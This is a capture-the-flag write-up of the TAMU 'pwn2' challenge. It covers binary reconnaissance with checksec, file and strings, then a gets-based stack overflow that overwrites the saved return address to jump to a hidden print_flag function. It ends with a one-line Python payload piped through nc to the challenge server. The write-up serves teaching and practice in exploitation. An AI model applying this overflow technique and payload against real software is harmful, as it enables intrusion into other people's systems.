 # pwn2
---

As with most exploit challenges, let's copy the binary to a Linux system and take a look!  Once in Linux, we will check the security implementations of the file using checksec with gdb-peda.  The, we will run the file and strings command on the binary to see if we can get any hints.

```bash
gdb-peda$ checksec
CANARY : disabled
FORTIFY : disabled
NX : ENABLED
PIE : disabled
RELRO : Partial
```

From this, we get an idea of what we are going to be able to do.  No Canary means buffer and heap overflows will work but NX being enabled means no shellcode execution from the stack.

```bash
user@ubuntu:~/TAMU$ file ./pwn2
./pwn2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=7bc1a419a4b258706db93ad2f8785e46fdee9636, not stripped
user@ubuntu:~/TAMU$ strings pwn2
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
gets
fopen
puts
putchar
```

From the file command, you can tell it is a 32-bit ELF executable and from strings command, we can already tell the vulnerability we are probably going to exploit.  "gets" is a popular vulnerability in entry-level CTFs and probably what the program is using to read input from the user somewhere.  So run the program and take a look.

```bash
user@ubuntu:~/TAMU$ ./pwn2
I just love repeating what other people say!
I bet I can repeat anything you tell me!
Hello!
Hello!
```

This didn't give us any hints so take a look at the disassembly in IDAPro.

![image](http://killyp.com/wp-content/uploads/2018/02/Capture-4.jpg)

So just as suspected the echo function contains a _gets call that we can overflow the buffer with and get flow control via the EIP register.  There is also a print_flag function that is never called. Don't know about you but I suspect we just need to redirect program flow to this print_flag function.  To do that we need the address of the print_flag function and the size of the overflow needed to overwrite the old EIP saved on the stack. We get a hint in the disassembly about the size of the overflow needed in that there is only one variable and it is located at EBP-0xEF.  0xEF is 239 in decimal so the length of our buffer overflow then needs to be 243 characters to fill up the allocated memory for s and then overwrite the old EBP that has been saved on the stack.  For more visual people, the stack will look something like this:

```
----------------------                                       
|          SSS        |<----The first 3 bytes of our input   
|---------------------|                                      
|          ...        |<----236 bytes of our input           
|---------------------|                                      
|          SSSS       |<----The last 4 bytes of out input    
|---------------------|                                      
|          EBP        |<----The old saved base pointer       
|---------------------|                                      
|          EIP        |<----The old Instruciton pointer. We  
-----------------------      need to overwrite this with the 
                             address of print_flag           
```

We can also get the location of print_flag from IDA by changing the view with spacebar.

![image](http://killyp.com/wp-content/uploads/2018/02/Capture-5.jpg)

Here we can see the location of print_flag is at 0x0804854B.  So let's build out exploit!

Since this exploit doesn't involve shellcode or anything fancy I am just going to use python's -c flag to output the text we need and pipe it into the stdin of the program.  Our exploit will be structured:
243 "A"s + address of print_flag

Remember that the address needs to be in Little Endian.  Our exploit ends up looking like this:

```python
python -c 'print("A"*243 + "\x4B\x85\x04\x08")' | nc pwn.ctf.tamu.edu 4322
```

Which yields...

![image](http://killyp.com/wp-content/uploads/2018/02/Capture-6-e1519695718223.jpg)

Success!
